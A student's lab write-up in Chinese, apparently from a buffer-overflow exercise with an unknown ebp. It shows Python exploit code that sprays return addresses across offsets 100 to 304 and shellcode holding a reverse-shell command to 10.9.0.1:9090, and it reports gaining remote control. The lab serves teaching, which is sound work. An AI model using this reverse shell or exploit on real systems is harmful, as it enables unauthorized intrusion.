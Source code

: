 






## Task 3: Unknown ebp

`ebp` 的值不可获取，但是我们知道 `buffer` 的大小在 100 到 300 之间。这样我们只需要用返回地址把 `buffer` 实际大小结束后的地址都填满，总会有一处填在 `ebp` 指向位置的前一个位置。因此构造方式如下：

- 获取本主机的 IP 地址、`buffer` 起始位置的值：

  ![屏幕截图(244)](C:\Users\杨乙\Pictures\Screenshots\屏幕截图(244).png)

- 设置 `shellcode`，与 shellcode_32.py 中的值相同即可，将命令改为：

  ```
  /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1
  ```

- `start` 设置为 `517 - len(shellcode)`，令 `shellcode` 占据 `content` 后半部分
- 返回地址 `ret` 要填满所有 `buffer` 实际大小结束后的地址，因此 `offset = [100, 300]`
- `ret` 指向的地址要避免被填充的 `ret` 值覆盖，可以取 `ret    = 0xffffd1a8 + 312`（312 为十进制）

此时程序栈的结构如下：

<img src="C:\Users\杨乙\Pictures\Screenshots\753c845f07c04d2ebe047b431646539.jpg" alt="753c845f07c04d2ebe047b431646539" style="zoom:25%;" />

程序改动如下：

```python
shellcode= (
   # ......
   "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1           *"
   # ......
).encode('latin-1')

# ......

start = 517 - len(shellcode)                # Change this number 

# ......

ret    = 0xffffd1a8 + 312     				# Change this number 

for offset in range(100, 304, 4):
    content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little') 
```

运行结果：

![屏幕截图(243)](C:\Users\杨乙\Pictures\Screenshots\屏幕截图(243).png)

成功取得了远程主机的控制权限


